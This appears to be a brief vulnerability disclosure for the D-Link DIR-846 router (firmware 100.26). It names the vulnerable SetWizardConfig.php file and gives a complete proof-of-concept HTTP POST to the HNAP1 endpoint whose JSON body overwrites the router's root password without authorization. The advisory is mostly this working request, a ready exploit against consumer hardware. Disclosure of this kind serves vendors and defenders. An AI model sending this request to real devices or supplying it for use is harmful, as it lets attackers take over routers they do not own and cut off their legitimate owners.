

# D-Link DIR-846 Unauthorized user change admin password #

**vender** ：D-Link

**Firmware version**:100.26

**Exploit Author**: bigbear@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-846

## Vul detail ##

Reproduction Steps:
1. The vulnerable code is in file /squashfs-root/www/HNAP1/control/SetWizardConfig.php.

1. POC:
```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:49.0) Gecko/20100101 Firefox/49.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/GetNetworkTomographyResult"
HNAP_AUTH: E3D001888F1411876149C974B7E390EC 1534224301610
Referer: http://192.168.0.1/Diagnosis.html
Content-Length: 132
Cookie: PHPSESSID=d56da05223ffd74c5246938735373721; uid=VPxfoKoj; PrivateKey=C3C24E3D66B449DB8C38DE80A2FBC269
DNT: 1
X-Forwarded-For: 8.8.8.8
Connection: close

{"SetWizardConfig":{"wan_wan(0)_proto":"1","wl(1).(0)_ssid":"aasdsad","wl(0).(0)_ssid":"asdasd","system_root_password":"1234567"}}
```